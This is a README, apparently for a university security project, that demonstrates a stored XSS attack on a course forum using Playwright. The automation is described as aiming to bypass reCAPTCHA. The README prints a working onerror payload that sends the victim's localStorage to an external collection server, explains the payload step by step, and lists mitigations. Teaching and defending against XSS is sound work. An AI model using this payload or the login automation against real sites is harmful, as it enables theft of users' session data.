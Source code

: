 # Cross-Site Scripting (XSS) Attack

This project demonstrates an automated Cross-Site Scripting (XSS) attack using Playwright to inject a payload into the forum application.

![image](https://github.com/user-attachments/assets/1c41c26f-7b17-459a-93f6-c5315ea00db9)

## Usage

To build and run this project using Docker, follow these steps:

```bash
docker build -t xss-attack-demo .
docker run xss-attack-demo
```
Alternatively, you can explore the live demo hosted at: 🔗 https://elec0138-xss.meeska.me/

## Attack Flow

The attack works as follows:

1. **Automated Login:** The script uses Playwright to automate the login process on the target website [https://elec0138-forum.0138019.xyz/](https://elec0138-forum.0138019.xyz/). It fills in the username and password fields and clicks the sign-in button. The automation aims to bypass protections reCAPTCHA, allowing unattended access.

2. **XSS Payload Injection:** After logging in, the script navigates to the forum section and posts a message containing a malicious XSS payload.

3. **Payload Details:** The payload is an `<img>` tag with an invalid `src` attribute and an `onerror` JavaScript handler:

   ```html
   <img src="x" onerror="const d={dt:'elec0138-xss',ls:JSON.stringify(localStorage)};new Image().src='https://elec0138-fc.meeska.me/collect?'+new URLSearchParams(d)">
   ```
   *   When a victim's browser attempts to load this image, the invalid `src` triggers the `onerror` event.
   *   The JavaScript code within `onerror` accesses the victim's `localStorage`, converts it to a JSON string, and includes a unique identifier (`dt:'elec0138-xss'`).
   *   It then constructs a URL for an external server (`https://elec0138-fc.meeska.me/collect`) and appends the stolen data as URL parameters.
   *   Requesting this URL via `new Image().src` sends the victim's `localStorage` data to the attacker-controlled server.

## Mitigation

1.  **Input Sanitization:** Rigorously sanitize all user-provided input on the server-side before storing or displaying it. Remove or encode potentially dangerous HTML tags and attributes (like `<script>`, `onerror`, `onload`, etc.). Use established libraries for sanitization specific to your backend language/framework.
2.  **Output Encoding:** When displaying user-generated content, ensure that it is properly encoded according to the context (HTML entity encoding for HTML content, JavaScript encoding for data within scripts, etc.). This prevents the browser from interpreting user input as active code.
3.  **Content Security Policy (CSP):** Implement a strong CSP header. A well-configured CSP can instruct the browser to:
    *   Disallow inline scripts (`script-src 'self'`) and inline event handlers.
    *   Restrict where resources (scripts, images, etc.) can be loaded from (`connect-src`, `img-src`). This could prevent the payload from sending data to the attacker's server.
